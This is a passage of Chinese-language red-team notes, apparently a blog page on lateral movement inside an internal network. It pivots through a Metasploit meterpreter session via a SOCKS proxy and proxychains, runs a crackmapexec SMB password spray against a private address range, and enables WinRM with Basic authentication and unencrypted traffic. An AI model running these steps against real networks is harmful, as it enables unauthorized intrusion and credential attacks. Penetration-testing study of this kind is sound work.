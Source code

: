 
#### [](#%E5%BC%80%E5%90%AFmsf%E4%BB%A3%E7%90%86 "开启msf代理")开启msf代理[](#%E5%BC%80%E5%90%AFmsf%E4%BB%A3%E7%90%86)

```bash
$meterpreter > background
$msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
$msf6 auxiliary(server/socks_proxy) > set SRVPORT 2233
$msf6 auxiliary(server/socks_proxy) > run
```

[![](assets/1702372940-29f1bb7f2550693368b2c47b4f749c77.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/50.png)

更改proxychains.conf

```awk
vim /etc/proxychains.conf
```

**密码喷射**

```bash
proxychains crackmapexec smb 192.168.91.1-127 -u administrator -p 'Abcd1234!@#'
```

## [](#WINRM%E6%A8%AA%E5%90%91 "WINRM横向")WINRM横向[](#WINRM%E6%A8%AA%E5%90%91)

WinRM代表Windows远程管理，是一种允许管理员远程执行系统管理任务的服务。默认情况下支持Kerberos和NTLM身份验证以及基本身份验证。  
条件：

-   **双方都启用的Winrm rs的服务**
-   目标系统防火墙已事先允许5985(HTTP SOAP)或5986(HTTPS SOAP)端口连入
-   使用此服务需要管理员级别凭据。
-   Windows2008以下版本默认自动状态，Windows Vista/win7上必须手动启动；
-   Windows 2012之后的版本默认允许远程任意主机来管理。

### [](#%E5%BC%80%E5%90%AF%E9%85%8D%E7%BD%AE "开启配置")开启配置[](#%E5%BC%80%E5%90%AF%E9%85%8D%E7%BD%AE)

```bash
# winrm service 默认都是未启用的状态，先查看状态；如无返回信息，则是没有启动
winrm enumerate winrm/config/listener

# 针对winrm service 进行基础配置：
winrm quickconfig

# 查看`winrm service listener`
winrm e winrm/config/listener

# 为winrm service 配置auth:
winrm set winrm/config/service/auth @{Basic="true"}

# 为winrm service 配置加密方式为允许非加密：
winrm set winrm/config/service @{AllowUnencrypted="true"}
```
